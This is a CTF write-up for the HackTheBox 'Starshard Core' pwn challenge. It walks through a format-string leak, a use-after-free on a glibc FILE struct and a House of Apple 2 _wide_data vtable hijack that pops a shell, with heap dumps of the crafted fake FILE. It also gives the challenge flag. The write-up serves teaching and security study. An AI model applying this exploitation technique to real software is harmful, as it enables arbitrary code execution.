

# Starshard Core

## TL;DR
- UAF after `fopen()` leads to ``_IO_wide_data`` struct vtable hijack to call an arbitrary function 

## Challenge Description

> This challenge is part of **HackTheBox University CTF 2025: Tinsel Trouble**

- Category: **pwn**

## Exploitation
### Analyzing the source code

- When we execute the program we are asked for a name and after sending an input we are welcomed with a menu: 

```console
          ____
       .-" +' "-.
      /.'.'A_'*`.\
     |:.*'/\\-\.':|
     |:.'.||"|.'*:|
      \:~^~^~^~^:/
       /`-....-'\
      /          \
      `-.,____,.-'

Tinselwick Tinkerer Name: aaa
=== Welcome aaa — Starshard Console ===

[1] Arm Starshard Routine
[2] Attach Wish-Script Fragment
[3] Cancel Routine
[4] Commit Routine
[5] Quit
> 
```

- The binary has a function defined for each option, and works with an user-defined struct called `console_state`.

```c
typedef struct {
    char[16]    tinkerer_name   
    char[24]    spell_name  
    FILE *      core_log    
    char *      spell_fragment  
    size_t      fragment_sz
} console_state;
```

1. `arm_routine`: uses `fopen` to open a file ``starshard_core.txt``, saves it globally to `console_state.core_log`, then asks for a spell name, stores it in ``console_state.spell_name`` buffer and prints it to stdout.

2. `feed_fragment`: before doing anything, checks if global `console_state.core_log` is not ``NULL``, then initializes the spell data by setting both `fragment_sz` and `spell_fragment` to 0. Then the program asks for `ulong fragment_sz` up to 0x1f4 bytes and allocates space in the heap for the spell using `malloc(fragment_sz)` stores the pointer in `spell_fragment` and takes input safely with ``fgets()`` into the pointer.

3. `cancel_routine`: simply does `fclose(console_state.core_log)` if `console_state.core_log != NULL`.

4. `commit_routine`: populates the file `console_state.core_log` with the data from `console_state.spell_fragment`.

### Finding the vulnerability

- As we can see there is no function that frees the chunk created by `feed_fragment`, so we can allocate an arbitrary number of < 0x1f5 chunks. 
- After some time playing with the binary I noticed that when using `fopen` on a file, a chunk of size 0x1e0 is created in the heap with the FILE struct of the new file.

- Heap layout after calling `arm_routine`:

```nasm

0x615b493e8290	0x0000000000000000	0x00000000000001e1	................
0x615b493e82a0	0x00000000fbad3487	0x0000615b493e8323	.4......#.>I[a..
0x615b493e82b0	0x0000615b493e8323	0x0000615b493e8323	#.>I[a..#.>I[a..
0x615b493e82c0	0x0000615b493e8323	0x0000615b493e8323	#.>I[a..#.>I[a..
0x615b493e82d0	0x0000615b493e8323	0x0000615b493e8323	#.>I[a..#.>I[a..
0x615b493e82e0	0x0000615b493e8324	0x0000000000000000	$.>I[a..........
0x615b493e82f0	0x0000000000000000	0x0000000000000000	................
0x615b493e8300	0x0000000000000000	0x00007cf0f1819680	.............|..
0x615b493e8310	0x0000000000000003	0x0000000000000000	................
0x615b493e8320	0x0000000000000000	0x0000615b493e8380	..........>I[a..
0x615b493e8330	0xffffffffffffffff	0x0000000000000000	................
0x615b493e8340	0x0000615b493e8390	0x0000000000000000	..>I[a..........
0x615b493e8350	0x0000000000000000	0x0000000000000000	................
0x615b493e8360	0x0000000000000000	0x0000000000000000	................
0x615b493e8370	0x0000000000000000	0x00007cf0f181a560	........`....|..
0x615b493e8380	0x0000000000000000	0x0000000000000000	................
0x615b493e8390	0x0000000000000000	0x0000000000000000	................
0x615b493e83a0	0x0000000000000000	0x0000000000000000	................
0x615b493e83b0	0x0000000000000000	0x0000000000000000	................
0x615b493e83c0	0x0000000000000000	0x0000000000000000	................
0x615b493e83d0	0x0000000000000000	0x0000000000000000	................
0x615b493e83e0	0x0000000000000000	0x0000000000000000	................
0x615b493e83f0	0x0000000000000000	0x0000000000000000	................
0x615b493e8400	0x0000000000000000	0x0000000000000000	................
0x615b493e8410	0x0000000000000000	0x0000000000000000	................
0x615b493e8420	0x0000000000000000	0x0000000000000000	................
0x615b493e8430	0x0000000000000000	0x0000000000000000	................
0x615b493e8440	0x0000000000000000	0x0000000000000000	................
0x615b493e8450	0x0000000000000000	0x0000000000000000	................
0x615b493e8460	0x0000000000000000	0x0000000000000000	................
0x615b493e8470	0x00007cf0f181a020	0x0000000000020b91	 ....|..........	 <-- Top chunk
```

- We can confirm this with `dt` command in pwndbg:

```c

pwndbg> dt FILE 0x615b493e82a0
FILE @ 0x615b493e82a0
    0x0000615b493e82a0 +0x0000 _flags               : -0x452cb79
    0x0000615b493e82a8 +0x0008 _IO_read_ptr         : 0x615b493e8323 ""
    0x0000615b493e82b0 +0x0010 _IO_read_end         : 0x615b493e8323 ""
    0x0000615b493e82b8 +0x0018 _IO_read_base        : 0x615b493e8323 ""
    0x0000615b493e82c0 +0x0020 _IO_write_base       : 0x615b493e8323 ""
    0x0000615b493e82c8 +0x0028 _IO_write_ptr        : 0x615b493e8323 ""
    0x0000615b493e82d0 +0x0030 _IO_write_end        : 0x615b493e8323 ""
    0x0000615b493e82d8 +0x0038 _IO_buf_base         : 0x615b493e8323 ""
    0x0000615b493e82e0 +0x0040 _IO_buf_end          : 0x615b493e8324 ""
    0x0000615b493e82e8 +0x0048 _IO_save_base        : 0x0
    0x0000615b493e82f0 +0x0050 _IO_backup_base      : 0x0
    0x0000615b493e82f8 +0x0058 _IO_save_end         : 0x0
    0x0000615b493e8300 +0x0060 _markers             : 0x0
    0x0000615b493e8308 +0x0068 _chain               : 0x7cf0f1819680 <_IO_2_1_stderr_>
    0x0000615b493e8310 +0x0070 _fileno              : 0x3
    0x0000615b493e8314 +0x0074 _flags2              : 0x0
    0x0000615b493e8318 +0x0078 _old_offset          : 0x0
    0x0000615b493e8320 +0x0080 _cur_column          : 0x0
    0x0000615b493e8322 +0x0082 _vtable_offset       : 0x0
    0x0000615b493e8323 +0x0083 _shortbuf            : ""
    0x0000615b493e8328 +0x0088 _lock                : 0x615b493e8380
    0x0000615b493e8330 +0x0090 _offset              : -0x1
    0x0000615b493e8338 +0x0098 _codecvt             : 0x0
    0x0000615b493e8340 +0x00a0 _wide_data           : 0x615b493e8390
    0x0000615b493e8348 +0x00a8 _freeres_list        : 0x0
    0x0000615b493e8350 +0x00b0 _freeres_buf         : 0x0
    0x0000615b493e8358 +0x00b8 __pad5               : 0x0
    0x0000615b493e8360 +0x00c0 _mode                : 0x0
    0x0000615b493e8364 +0x00c4 _unused2             : '\000' <repeats 19 times>
```

- To free it we just have to `fclose` the file by calling third option `cancel_routine`.

- But remember, we can create arbitrary chunks of size up to 0x1f4, and `cancel_routine` **does not clear** `console_state.core_log` leaving behind a dangling pointer. There is a use-after-free vulnerability that we can use to modify a FILE struct that we can `fclose` any time we want.

- In my experience, I have done close to nothing File Structure related in exploiting so I had to learn on the spot. Some time ago, I learnt about **House of Orange**, and `_IO_list_all` tampering. At that time I learnt the absolute basics of FSOP.

- The `_IO_FILE_plus` is a struct with variables: the file (with a structure like shown in the previous layout) and a struct `_IO_jump_t vtable`. The last one is a structure full of pointers that get called when doing specific actions with the FILE, we can take a look to the address `0x00007cf0f181a560` located in the heap layout.

```nasm
pwndbg> tele 0x00007cf0f181a560
00:0000│ rbp 0x7cf0f181a560 (__GI__IO_file_jumps) ◂— 0
01:0008│+008 0x7cf0f181a568 (__GI__IO_file_jumps+8) ◂— 0
02:0010│+010 0x7cf0f181a570 (__GI__IO_file_jumps+16) —▸ 0x7cf0f168ff70 (__GI__IO_file_finish) ◂— endbr64 
03:0018│+018 0x7cf0f181a578 (__GI__IO_file_jumps+24) —▸ 0x7cf0f1690d40 (__GI__IO_file_overflow) ◂— endbr64 
04:0020│+020 0x7cf0f181a580 (__GI__IO_file_jumps+32) —▸ 0x7cf0f1690a30 (__GI__IO_file_underflow) ◂— endbr64 
05:0028│+028 0x7cf0f181a588 (__GI__IO_file_jumps+40) —▸ 0x7cf0f1691ce0 (_IO_default_uflow) ◂— endbr64 
06:0030│+030 0x7cf0f181a590 (__GI__IO_file_jumps+48) —▸ 0x7cf0f1693200 (_IO_default_pbackfail) ◂— endbr64 
07:0038│+038 0x7cf0f181a598 (__GI__IO_file_jumps+56) —▸ 0x7cf0f168f5a0 (__GI__IO_file_xsputn) ◂— endbr64 
```

- For example, when a file is closed `__GI__IO_file_finish` is called.

- In older versions (<=glibc-2.23) we could overwrite this `_IO_jump_t vtable` field with a custom vtable, located at an address we control but in glibc-2.24 a new check was added to the implementation preventing this kind of attack: `IO_validate_vtable`. This checks before executing that the vtable is located in a valid range of addresses, if it is not, aborts with `invalid stdio handle`.

```c
static inline const struct _IO_jump_t *
IO_validate_vtable (const struct _IO_jump_t *vtable)
{
  /* Fast path: The vtable pointer is within the __libc_IO_vtables
     section.  */
  uintptr_t section_length = __stop___libc_IO_vtables - __start___libc_IO_vtables;
  uintptr_t ptr = (uintptr_t) vtable;
  uintptr_t offset = ptr - (uintptr_t) __start___libc_IO_vtables;
  if (__glibc_unlikely (offset >= section_length))
    /* The vtable pointer is not in the expected section.  Use the
       slow path, which will terminate the process if necessary.  */
    _IO_vtable_check ();
  return vtable;
}
```

- Nowadays the approach to this problem is using the `_IO_wide_data` struct, with a pointer located at offset 0xa0 in the FILE structure shown before. 

```c
struct _IO_wide_data {
    wchar_t *_IO_read_ptr;
    wchar_t *_IO_read_end;
    wchar_t *_IO_read_base;
    wchar_t *_IO_write_base;
    wchar_t *_IO_write_ptr;
    wchar_t *_IO_write_end;
    wchar_t *_IO_buf_base;
    wchar_t *_IO_buf_end;
    wchar_t *_IO_save_base;
    wchar_t *_IO_backup_base;
    wchar_t *_IO_save_end;
    __mbstate_t _IO_state;
    __mbstate_t _IO_last_state;
    struct _IO_codecvt _codecvt;
    wchar_t _shortbuf[1];
    const struct _IO_jump_t *_wide_vtable;
}
```

- The structure is used to handle files with wide chars, and as we can see, it has some fields that are present too in the standard FILE struct, even our beloved `_IO_jump_t`. The main difference between this vtable and the one before, is that `_IO_jump_t *_wide_vtable` **does not have validation checks**.

### Exploiting the vulnerability

- Now that we (kind of) know what path to take to solve the challenge, we need libc, heap and PIE leaks. This last one is needed because there is an additional function I did not mention before: `ginger_gate` that gives us a shell. The method we will use works perfectly with no PIE leaks to pop a `/bin/sh` shell too, but considering they gave us the win function we will use it.

- Remember that at the start we were asked for a name? This is the code that implements it:

```c
...
  printf("Tinselwick Tinkerer Name: ");
  fgets(console_state.tinkerer_name,0x10,stdin);
  printf("=== Welcome ");
  printf(console_state.tinkerer_name);
...
```

- Format string vulnerability in `console_state.tinkerer_name`.

```console
          ____
       .-" +' "-.
      /.'.'A_'*`.\
     |:.*'/\\-\.':|
     |:.'.||"|.'*:|
      \:~^~^~^~^:/
       /`-....-'\
      /          \
      `-.,____,.-'

Tinselwick Tinkerer Name: %p.%p.%p
=== Welcome 0x7ffd25886ce0.0xffffffff.(nil) — Starshard Console ===

[1] Arm Starshard Routine
[2] Attach Wish-Script Fragment
[3] Cancel Routine
[4] Commit Routine
[5] Quit
> 
```

- Using this we can achieve leaks for libc and PIE, examining the stack and calculating offsets.

- For PIE leak we can take a look the `arm_routine` function:

```c
  printf("Enter Starshard Routine Name: ");
  i = 0;
  while (i < 0x18) {
    c = fgetc(stdin);
    if ((c == -1) || (c == ' ')) break;
    console_state.spell_name[i] = c;
    i = i + 1;
  }
  printf("[*] Routine Armed %s", console_state.spell_name);

```

- This loop populates `console_state.spell_name` buffer, but does not null the last character, so when it reaches the last `printf` if the buffer is full, it will keep printing until it reaches a null byte. 

- Recalling to the ``console_state`` struct: 

```c
typedef struct {
    char[16]    tinkerer_name   
    char[24]    spell_name  
    FILE *      core_log    
    char *      spell_fragment  
    size_t      fragment_sz
} console_state;
```

- There is our heap pointer right after `spell_name`! So now we have all the leaks we needed, we can begin with our FILE exploitation approach.

- For this technique I relied heavily in these posts:
    * [House of Apple 1](https://roderickchan.github.io/zh-cn/house-of-apple-%E4%B8%80%E7%A7%8D%E6%96%B0%E7%9A%84glibc%E4%B8%ADio%E6%94%BB%E5%87%BB%E6%96%B9%E6%B3%95-1/)
    * [House of Apple 2](https://roderickchan.github.io/zh-cn/house-of-apple-%E4%B8%80%E7%A7%8D%E6%96%B0%E7%9A%84glibc%E4%B8%ADio%E6%94%BB%E5%87%BB%E6%96%B9%E6%B3%95-2/)

- We will use the call chain described in [House of Apple 2](https://roderickchan.github.io/zh-cn/house-of-apple-%E4%B8%80%E7%A7%8D%E6%96%B0%E7%9A%84glibc%E4%B8%ADio%E6%94%BB%E5%87%BB%E6%96%B9%E6%B3%95-2/): ``_IO_wfile_overflow -> _IO_wdoallocbuf -> _IO_WDOALLOCATE -> *(fp->_wide_data->_wide_vtable + 0x68)(fp)``

- Don't let this overwhelm you, it is not as hard as it looks. We will trick our FILE vtable (the one with the validity checks) to point to the ``_IO_wide_data`` vtable, tweaking its address so when it tries to execute ``_finish`` instead calls ``_IO_wfile_overflow``, this function internally will call `_IO_wdoallocbuf`. This function will make use of the no validity checks `_wide_data` vtable to search for `_IO_WDOALLOCATE` (offset 0x68). So what we have to do is place in a controllable address `addr` our `ginger_gate` function, and overwrite the vtable pointer of `_wide_data` to `addr-0x68`, so when `_IO_wdoallocbuf` tries to execute `_IO_WDOALLOCATE` instead calls `ginger_gate` and gives us a shell. 

- There are specific constraints we have to be aware of: 
    * `fp->_wide_data->_IO_buf_base != 0`
    * `f->_wide_data->_IO_write_base == 0`
    * `f->_flags == 0` 

- Now we just have to call `arm_routine` to leak PIE and allocate the real fp chunk in the heap, call `cancel_routine` to free it and call `feed_fragment` to reclaim the freed chunk and send our fake FILE.

```c

pwndbg> dt FILE 0x5e20893372a0
FILE @ 0x5e20893372a0
    0x00005e20893372a0 +0x0000 _flags               : 0x0
    0x00005e20893372a8 +0x0008 _IO_read_ptr         : 0x5e2089337323 ""
    0x00005e20893372b0 +0x0010 _IO_read_end         : 0x5e2089337323 ""
    0x00005e20893372b8 +0x0018 _IO_read_base        : 0x5e2089337323 ""
    0x00005e20893372c0 +0x0020 _IO_write_base       : 0x5e2089337323 ""
    0x00005e20893372c8 +0x0028 _IO_write_ptr        : 0x5e2089337323 ""
    0x00005e20893372d0 +0x0030 _IO_write_end        : 0x5e2089337323 ""
    0x00005e20893372d8 +0x0038 _IO_buf_base         : 0x5e2089337323 ""
    0x00005e20893372e0 +0x0040 _IO_buf_end          : 0x5e2089337324 ""
    0x00005e20893372e8 +0x0048 _IO_save_base        : 0x0
    0x00005e20893372f0 +0x0050 _IO_backup_base      : 0x0
    0x00005e20893372f8 +0x0058 _IO_save_end         : 0x0
    0x00005e2089337300 +0x0060 _markers             : 0x0
    0x00005e2089337308 +0x0068 _chain               : 0x76c2e3019840
    0x00005e2089337310 +0x0070 _fileno              : 0x3
    0x00005e2089337314 +0x0074 _flags2              : 0x0
    0x00005e2089337318 +0x0078 _old_offset          : 0x0
    0x00005e2089337320 +0x0080 _cur_column          : 0x0
    0x00005e2089337322 +0x0082 _vtable_offset       : 0x0
    0x00005e2089337323 +0x0083 _shortbuf            : ""
    0x00005e2089337328 +0x0088 _lock                : 0x5e2089337380
    0x00005e2089337330 +0x0090 _offset              : -0x1
    0x00005e2089337338 +0x0098 _codecvt             : 0x0
    0x00005e2089337340 +0x00a0 _wide_data           : 0x5e2089337390
    0x00005e2089337348 +0x00a8 _freeres_list        : 0x0
    0x00005e2089337350 +0x00b0 _freeres_buf         : 0x0
    0x00005e2089337358 +0x00b8 __pad5               : 0x0
    0x00005e2089337360 +0x00c0 _mode                : 0x0
    0x00005e2089337364 +0x00c4 _unused2             : '\000' <repeats 19 times>

```


```c
0x5e2089337290	0x0000000000000000	0x00000000000001e1	................
0x5e20893372a0	0x0000000000000000	0x00005e2089337323	........#s3. ^.. <-- zeroed out _flags
0x5e20893372b0	0x00005e2089337323	0x00005e2089337323	#s3. ^..#s3. ^..
0x5e20893372c0	0x00005e2089337323	0x00005e2089337323	#s3. ^..#s3. ^..
0x5e20893372d0	0x00005e2089337323	0x00005e2089337323	#s3. ^..#s3. ^..
0x5e20893372e0	0x00005e2089337324	0x0000000000000000	$s3. ^..........
0x5e20893372f0	0x0000000000000000	0x0000000000000000	................
0x5e2089337300	0x0000000000000000	0x000076c2e3019840	........@....v..
0x5e2089337310	0x0000000000000003	0x0000000000000000	................
0x5e2089337320	0x0000000000000000	0x00005e2089337380	.........s3. ^.. <-- _lock field, has to point to an address that holds NULL
0x5e2089337330	0xffffffffffffffff	0x0000000000000000	................
0x5e2089337340	0x00005e2089337390	0x0000000000000000	.s3. ^..........
0x5e2089337350	0x0000000000000000	0x0000000000000000	................
0x5e2089337360	0x0000000000000000	0x0000000000000000	................
0x5e2089337370	0x0000000000000000	0x000076c2e301a028	........(....v.. <-- wide vtable, it passes the check, but it is not the real vtable
0x5e2089337380	0x0000000000000000	0x0000000000000000	................
0x5e2089337390	0x0000000000000000	0x0000000000000000	................ <-- start of _wide_data
0x5e20893373a0	0x0000000000000000	0x0000000000000000	................
0x5e20893373b0	0x0000000000000000	0x0000000000000000	................
0x5e20893373c0	0x0000000000000000	0x0000000000000000	................
0x5e20893373d0	0x0000000000000000	0x00000000deadbeef	................
0x5e20893373e0	0x00000000deadbeef	0x00000000deadbeef	................
0x5e20893373f0	0x00000000deadbeef	0x00000000deadbeef	................
0x5e2089337400	0x00000000deadbeef	0x00000000deadbeef	................
0x5e2089337410	0x00000000deadbeef	0x00000000deadbeef	................
0x5e2089337420	0x00000000deadbeef	0x00000000deadbeef	................
0x5e2089337430	0x00000000deadbeef	0x00000000deadbeef	................
0x5e2089337440	0x00000000deadbeef	0x00000000deadbeef	................
0x5e2089337450	0x00000000deadbeef	0x00000000deadbeef	................
0x5e2089337460	0x00005e2069559726	0x00000000deadbeef	&.Ui ^..........
0x5e2089337470	0x00005e20893373f8	0x0000000000020b91	.s3. ^.......... <-- 0x00005e20893373f8 is our wide vtable, if we add 0x68, we get 0x5e2089337460 which holds ginger_date function.

```

- Now we just have to use third option `cancel_routine` to `fclose()` our FILE, and our function will be called, giving us a shell.


### Getting the flag




### Flag
HTB{c0rrupt3d_st4rsh4rd_w1sh3s_4b2f787495eaa2618b8c5404923f8371}

### Solver
You can download the solver script [here](assets/solver.py). I know there is a FileStructure object in pwntools for this kind of challenges, but to be honest I didn't want to put time during the CTF to learn how to use it, so I just crafted it in a normal payload.
